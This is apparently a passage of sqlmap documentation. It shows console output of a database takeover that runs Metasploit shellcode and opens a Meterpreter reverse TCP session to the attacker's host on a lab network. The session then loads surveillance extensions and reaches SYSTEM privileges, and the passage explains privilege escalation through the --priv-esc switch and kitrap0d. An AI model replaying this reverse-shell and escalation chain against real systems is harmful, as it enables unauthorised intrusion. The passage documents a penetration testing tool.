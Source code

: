 ```
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

By default MySQL on Windows runs as `SYSTEM`, however PostgreSQL runs as a low-privileged user `postgres` on both Windows and Linux. Microsoft SQL Server 2000 by default runs as `SYSTEM`, whereas Microsoft SQL Server 2005 and 2008 run most of the times as `NETWORK SERVICE` and sometimes as `LOCAL SERVICE`. 

It is possible to provide sqlmap with switch `--priv-esc` to perform a **database process' user privilege escalation** via Metasploit's `getsystem` command which include, among others, the [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) technique ([MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)).
